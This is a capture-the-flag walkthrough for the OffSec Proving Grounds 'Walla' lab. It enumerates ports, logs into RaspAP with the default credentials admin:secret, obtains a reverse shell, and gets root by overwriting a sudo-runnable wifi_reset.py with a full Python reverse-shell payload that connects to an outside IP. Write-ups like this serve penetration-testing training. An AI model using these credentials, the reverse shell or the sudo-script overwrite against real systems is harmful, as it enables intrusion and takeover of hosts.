

# Walla — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Easy
**OS:** Linux

---

## TL;DR

RaspAP on port 8091 with default creds `admin:secret` → web console RCE → reverse shell as www-data → replace sudo-enabled `wifi_reset.py` with reverse shell payload → root.

---

## Enumeration

```bash
nmap -sC -sV -p- -n -Pn --min-rate=9018 192.168.228.97 -oN nmap.txt
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 7.9p1 |
| 23 | Telnet | Linux telnetd |
| 25 | SMTP | Postfix |
| 53 | DNS | tcpwrapped |
| 422 | SSH | OpenSSH 7.9p1 |
| 8091 | HTTP | lighttpd 1.4.53 (RaspAP) |
| 42042 | SSH | OpenSSH 7.9p1 |

SSH running on three different ports (22, 422, 42042) — interesting. Port 8091 is running **RaspAP** (a web interface for WiFi access point management).

---

## Exploitation — RaspAP Default Credentials + Web Console

RaspAP has well-known default credentials: `admin:secret`. They work here.

After logging in, navigate to the system info page which exposes a console:

```
http://192.168.228.97:8091/index.php?page=system_info
```

Use `nc` from the web console to get a reverse shell.

---

## Privilege Escalation — Sudo Python Script Replacement

Checking sudo:

```bash
sudo -l
```



We can run `/usr/bin/python /home/walter/wifi_reset.py` as root with sudo. The script is in a user's home directory — and we can write to it.

Delete the original and replace it with a Python reverse shell:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.45.201",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/sh")
```

Run it with sudo:

```bash
sudo /usr/bin/python /home/walter/wifi_reset.py
```

**Root.** 🎉

---

## Key Takeaways

- **RaspAP default credentials** (`admin:secret`) are rarely changed — always try them
- When `sudo -l` shows a script you can replace, it's game over — overwrite it with your payload
- The web console in RaspAP is a direct RCE vector once authenticated

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
